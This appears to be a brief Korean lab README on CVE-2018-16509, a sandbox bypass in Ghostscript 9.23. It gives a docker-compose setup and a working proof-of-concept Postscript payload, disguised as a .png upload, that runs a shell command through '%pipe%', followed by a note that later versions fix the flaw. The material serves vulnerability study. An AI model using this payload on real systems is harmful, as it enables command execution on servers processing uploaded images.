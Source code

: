 # CVE-2018-16509

**Contributors**

[정기현](https://github.com/jkh011120)

## 요약

CVE-2018-16509는 Postscript 및 PDF를 처리하는 Ghostscript를 우회하여 사용자가 의도치 않은 행위를 하게 합니다. 즉, 파일 확장자로 우회하여 파일업로드 공격이 가능합니다.

## 환경 구성 및 실행

`docker-compose up -d` 커맨드를 입력하여 테스트 환경을 실행합니다 (GhostScript 9.23 및 ImageMagick 7.0.8 버전을 사용합니다).

## poc.ps -> poc.png
Postscript로 코드를 만든 후 확장자를 png로 변경합니다.

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```



###결과

![](1.png)

![](2.png)

![](3.png)

![](4.png)


###정리

Ghostscript는 파일 우회가 됨.
하지만 9.52.1버전 이후부터 해결 됨.

